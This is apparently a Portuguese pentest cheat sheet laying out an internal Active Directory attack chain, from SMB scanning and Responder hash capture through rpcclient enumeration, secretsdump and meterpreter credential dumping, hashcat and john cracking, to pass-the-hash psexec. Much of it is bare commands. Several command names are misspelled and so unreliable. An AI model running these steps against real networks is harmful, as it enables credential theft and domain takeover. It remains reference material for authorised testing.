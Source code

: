 ## Pentest Interno: Do zero a Domain Admin

## Pentest em ambientes modernos

## Identificando o escopo na rede

`nmap --open -v -sS -p 445 -Pn 192.168.0.0/24 -oG smb.txt`

Obs: Sempre busque otimizar seu tempo, no exemplo acima focamos na porta 445 pois faz parte do nosso escopo e ao inves de varrer varias portas que não iria nos servir focamos em uma porta especifica.

`cat smb.txt | grep "Up" | cut -d " " -f 2 > targets`

`crackmapexec smb targets`

`nmap -v --open -Pn 192.168.0.1`

*Obs:
- Busque identificar dentre os ip encontdos qual possui AD.
- Para identificar se um servidor é AD basta analisar as portas abertas do alvo.
- E caso entrone o servidor tente fazer resoluções de nome
- por exemplo: host IP_POSSIVELALVO IP_DOSERVIDOR


## Capturando hashes na rede

*Obs: Para capturar hashes na rede é preciso ativar o responder em host que pertence a mesms a rede onde os alvos estão localizados e o a configuração do respondender deve estar definido em relação aos IPs somente aqueles que estiverem dentro do scopo e tambem para facilitar o processo de coleta de informações.*


## Validando as credenciais

- smbclient
- crackmapexec
- psexec.py
- metasploit (psexec)


## Enumerando as contas do AD

`rpcclient -W dominio_da_rede -U usuario x.x.x.x`

Enumerando usuarios

`enumdomusers`

Enumerando grupos

`enumdongroups`

Obtendo informações sobre um determinado usuario

`getusername`

Comando usado para buscar informações sobre usuario

`queryuser`

**Buscando por usuarios Administrativos:**

Listando todos os grupos

`enumdongroups`

`querygro`

Exemplo de listagem de usuarios que pertencem ao grupo de administradores.

`querygroupmem 0x200`

Exemplo de consulta sobre um determinado usuario apos listar que pertence ao grupo de administradores

`queryuser 0x1f4`




## Conseguindo Domain Admin

Terminal normal

`impacket-secresdump dominiodarede/usuario:'password'@x.x.x.x`

Utilzando metasploit

`meterpreter > load kiwi`

`meterpreter > creds_all`

*Obs: DCC e DCC2 indica que é uma hashe.*

DCC - Domain cache credentials

Quebrando a hashe encontrada:

`hashcat -m 2100 hash.txt /usr/share/wordlists/rockyou.txt --force`

Exibindo a senha resolvida

`hashcat -m 2100 hash.txt /usr/share/wordlists/rockyou.txt --show`

Utilizando john

`john --format=nt hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`

Exibindo senha resolvida

`john --format=nt hash.txt --show`




## Obtendo acesso ao servidor

- crackmapexec
- psexec.py
- metasploit (psexec)


## Conclusão: Acesso completo

*Obs: utilzando a tecnica pass the hash*

`python3 /usr/share/doc/python3-impacket/examples/psexec.py usuario@x.x.x.x -hashes ......hashe_encontrada.......`




















